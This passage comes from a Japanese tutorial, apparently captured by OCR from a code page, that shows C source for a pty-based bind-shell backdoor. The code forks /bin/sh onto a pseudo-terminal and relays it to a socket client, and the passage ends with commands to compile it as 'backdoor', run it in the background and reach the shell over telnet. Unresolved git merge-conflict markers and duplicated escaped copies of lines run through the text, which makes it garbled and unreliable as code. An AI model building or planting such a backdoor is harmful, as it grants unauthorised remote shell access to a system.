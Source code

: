   if (forkpty(&master, NULL, NULL, NULL) \=\= 0) /* \-\-\-(1)\-\-\- */
    execl("/bin/sh", "sh", NULL); // 子プロセスはshに

  while (1) { /* \-\-\-(2)\-\-\- */
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
   FD_ZERO(&check_fd);
   FD_SET(client, &check_fd);
   FD_SET(master, &check_fd);
   if (select(FD_SETSIZE, &check_fd, NULL, NULL, NULL) < 1) // 出力待ち
     break;
   if (FD_ISSET(master, &check_fd)) { // 擬似端末が読み込み可能
<<<<<<< HEAD
     if ((len = read(master, buff, sizeof(buff))) == -1) // 読み込み
       break;
     write(client, buff, len); // 読んだ内容をクライアントへ書き込む
   } else { 	// クライアントが読み込み可能
     if ((len = read(client, buff, sizeof(buff))) == -1) // 読み込み
=======
     if ((len \= read(master, buff, sizeof(buff))) \=\= \-1) // 読み込み
       break;
     write(client, buff, len); // 読んだ内容をクライアントへ書き込む
   } else { 	// クライアントが読み込み可能
     if ((len \= read(client, buff, sizeof(buff))) \=\= \-1) // 読み込み
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
       break;
     write(master, buff, len); // 読んだ内容を擬似端末のmasterへ書き込む
   }
  }
  return 0;
}
<<<<<<< HEAD
-----

　-(1)-以降が改良部分です。-(1)-でforkpty()し、子プロセスならexecl()で
shellへ化けます。親プロセスは-(2)-以降で、client(クライアントのソケット)
=======
\-\-\-\-\-

　\-(1)\-以降が改良部分です。\-(1)\-でforkpty()し、子プロセスならexecl()で
shellへ化けます。親プロセスは\-(2)\-以降で、client(クライアントのソケット)
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
と、master(疑似端末のmaster)の中継地点となります。

　実際にviやemacsが使えるか試してみます。

<<<<<<< HEAD
-----
$ gcc pty_rbd.c -lutil -o backdoor
=======
\-\-\-\-\-
$ gcc pty_rbd.c \-lutil \-o backdoor
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
$ ./backdoor &
[2] 1740
$ telnet localhost 1876
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
<<<<<<< HEAD
sh-2.05$ emacs -nw
Buffers Files Tools Edit Search Mule Help
..
sh-2.05$ vi
..
-----